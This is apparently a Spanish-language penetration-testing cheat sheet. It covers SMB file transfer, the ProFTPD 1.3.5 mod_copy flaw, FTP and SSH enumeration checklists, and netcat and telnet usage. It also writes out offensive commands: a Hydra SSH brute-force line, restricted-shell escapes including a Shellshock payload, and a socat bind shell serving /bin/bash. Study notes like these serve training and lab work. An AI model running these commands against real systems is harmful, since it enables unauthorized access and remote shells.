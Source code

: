 Traspasar archivos desde Windows a Linux
sudo impacket-smbserver smbFolder $(pwd) -smb2support


smbclient -L \\\\<ip>\\<path> -N

### ProFtd 1.3.5
- Vector "mod_copy"
* Implementa SITE CPFR y SITE CPTO  comandos por el cual pueden usarse para copiar archivos y directorios a otra ubicacion del servidor. Un usuario no -autenticado puede ejecutar esos comandos para copiar cualquier archivos del filesystem a  otra ubicacion determinada.
### VsFtpd 2.3.4 

### FTP Puerto 21
-Checkear:
* version vulnerable
* Anonymous login
* Read access
* Web root or directorios root de de otro servicio accesible
* Acceso a la escritura

### SSH Puerto 22
- Checkear:
* version vulnerable
* Enumeracion de usuarios
* Host keys vistos en otro lado
* Si muestra una contraseña significa que es accedido por varios usuarios
* nmap -sV --script=hostkey -p22 <ip>
* Bruteforce con CeWL, Hydra, Patator, Crowbar

##Bruteforce con hydra
hydra -l usuario -P ./passwords <ip> -t 4 ssh
conectar con id_rsa
ssh -i id_rsa usuario@<ip> -N
o tambien 
--Si figura shell restricted
ssh <usuario>@<ip> -t "bash --noprofile"  || o tambien ssh username@IP -t “/bin/sh” or “/bin/bash” tambien || ssh username@IP -t “() { :; }; /bin/bash” (Shellshock)


### Netcat
* connectar #nc <ip> <puerto>
* recibir conexion #nc -nlvp <puerto>

###SOCAT 
*recibir conexion #socat TCP4-LISTEN:<puerto>,reuseaddr,fork 'SYSTEM:/bin/bash'      (igual a nc -nlvp)


### TELNET Puerto 23
* telnet <ip> <puerto>
